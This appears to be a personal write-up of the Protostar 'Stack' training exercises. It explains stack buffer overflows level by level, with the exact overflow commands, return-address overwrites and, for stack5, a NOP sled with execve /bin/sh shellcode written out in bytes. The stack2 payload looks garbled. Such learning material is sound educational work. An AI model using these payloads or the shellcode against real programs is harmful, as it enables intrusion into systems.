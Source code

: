 # Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
![stack4_1](./images/stack4_1.png)     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    
![stack4_2](./images/stack4_2.png)
The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html) | [2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)    
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    
![stack5_1](./images/stack5_1.png)


## [Stack6](https://exploit-exercises.com/protostar/stack6/)
## [Stack7](https://exploit-exercises.com/protostar/stack7/)
